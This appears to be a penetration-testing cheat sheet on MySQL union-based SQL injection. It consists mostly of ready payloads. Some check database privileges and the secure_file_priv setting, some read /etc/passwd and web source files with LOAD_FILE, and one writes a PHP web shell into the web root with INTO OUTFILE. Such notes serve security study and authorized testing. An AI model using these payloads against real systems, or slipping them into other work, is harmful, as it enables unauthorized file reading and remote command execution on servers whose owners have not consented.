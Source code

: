 ### Reading Files
First check what user we're on:
- `user()`

To read file from the host the user needs to have super privileges or `FILE` permission:
- `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`
- `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`
- `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`

Then using `LOAD_FILE` we can read files:
- `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`
- `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/index.php"), 3, 4-- -`

>**ℹ️ Info**
>
> We can only read files if the user running MySQL has enough privileges to do so.

### Writting Files
> ⚠️ **PAY ATTENTION:**
> 
> Be sure to check the paths of the web to discover places to write to.

To be able to write files to the back-end server using a MySQL database, we require three things:
- User with `FILE` privilege enabled
- MySQL global `secure_file_priv` variable not enabled
- Write access to the location we want to write to on the back-end server

To check for the `secure_file_priv` variable run:
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
>**ℹ️ Info**
>
> If the value is not set, that means we can write to all locations the OS user running MySQL has access to.

>**ℹ️ Info**
>
>To write a reverse shell we need to know in what folder the server is being hosted from, we can use the `LOAD_FILE` function to check `/etc/apache2/apache2.conf` and `/etc/nginx/nginx.conf` or IIS config at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config` for Windows.
>
>We can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this wordlist for [Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this wordlist for [Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

Here is a basic PHP web shell:
```sql
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
